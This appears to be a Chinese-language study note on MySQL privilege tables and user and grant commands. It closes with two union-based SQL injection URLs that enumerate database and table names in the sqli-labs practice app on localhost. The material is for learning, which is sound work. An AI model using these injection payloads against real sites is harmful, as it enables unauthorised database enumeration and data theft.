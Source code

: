     - ![](图片/Pasted%20image%2020241019162225.png)
> 系统权限表
```
User表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例，如果有全局权限则意味着对所有数据库都有此权限 
	Db表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库 
	Tables_priv表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表 
	Columns_priv表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段 
	Procs_priv表：存放存储过程和函数级别的权限、
MySQl管理权限分为
    全局性的管理权限： 作用于整个MySQL实例级别 
	数据库级别的权限： 作用于某个指定的数据库上或者所有的数据库上 
	数据库对象级别的权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象
```
> 创建mysql用户
```
有两种方式创建MySQL授权用户

	执行create user/grant命令（推荐方式）
	CREATE USER 'finley'@'localhost' IDENTIFIED BY 'some_pass';
	通过insert语句直接操作MySQL系统权限表
```
> 只提供id查询权限
```
grant select(id) on test.temp to test1@'localhost' identified by '123456'
```
> 把普通用户变成管理员权限
```
GRANT ALL PRIVILEGES ON *.* TO 'test1'@'localhost' WITH GRANT OPTION
```
> 删除用户
 ```
drop user finley@'localhost'
```

- 查询数据库名
    - http://127.0.0.1/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
![](图片/Pasted%20image%2020241025181234.png)
- 查询数据库对应的表名
    - http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x7365637572697479   （security的16进制）